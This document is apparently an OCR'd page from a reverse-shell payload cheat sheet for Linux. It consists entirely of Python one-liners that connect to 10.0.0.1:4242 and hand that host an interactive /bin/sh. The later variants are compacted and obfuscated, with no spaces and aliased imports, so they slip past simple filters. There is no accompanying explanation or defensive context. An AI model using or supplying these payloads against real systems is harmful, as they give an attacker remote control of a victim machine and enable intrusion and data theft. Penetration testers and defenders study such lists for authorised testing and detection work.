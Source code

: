 Linux only

IPv4
```python
export RHOST="10.0.0.1";export RPORT=4242;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```
```python
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```
```python
python -c 'import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())'
```

IPv4 (No Spaces)
```python
python -c 'socket=__import__("socket");os=__import__("os");pty=__import__("pty");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```
```python
python -c 'socket=__import__("socket");subprocess=__import__("subprocess");os=__import__("os");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```
```python
python -c 'socket=__import__("socket");subprocess=__import__("subprocess");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())'
```

IPv4 (No Spaces, Shortened)
```python
python -c 'a=__import__;s=a("socket");o=a("os").dup2;p=a("pty").spawn;c=s.socket(s.AF_INET,s.SOCK_STREAM);c.connect(("10.0.0.1",4242));f=c.fileno;o(f(),0);o(f(),1);o(f(),2);p("/bin/sh")'
```
```python
python -c 'a=__import__;b=a("socket");p=a("subprocess").call;o=a("os").dup2;s=b.socket(b.AF_INET,b.SOCK_STREAM);s.connect(("10.0.0.1",4242));f=s.fileno;o(f(),0);o(f(),1);o(f(),2);p(["/bin/sh","-i"])'
```
```python
python -c 'a=__import__;b=a("socket");c=a("subprocess").call;s=b.socket(b.AF_INET,b.SOCK_STREAM);s.connect(("10.0.0.1",4242));f=s.fileno;c(["/bin/sh","-i"],stdin=f(),stdout=f(),stderr=f())'
```

IPv4 (No Spaces, Shortened Further)
```python
python -c 'a=__import__;s=a("socket").socket;o=a("os").dup2;p=a("pty").spawn;c=s();c.connect(("10.0.0.1",4242));f=c.fileno;o(f(),0);o(f(),1);o(f(),2);p("/bin/sh")'
```
```python
python -c 'a=__import__;b=a("socket").socket;p=a("subprocess").call;o=a("os").dup2;s=b();s.connect(("10.0.0.1",4242));f=s.fileno;o(f(),0);o(f(),1);o(f(),2);p(["/bin/sh","-i"])'
```
```python
python -c 'a=__import__;b=a("socket").socket;c=a("subprocess").call;s=b();s.connect(("10.0.0.1",4242));f=s.fileno;c(["/bin/sh","-i"],stdin=f(),stdout=f(),stderr=f())'
```
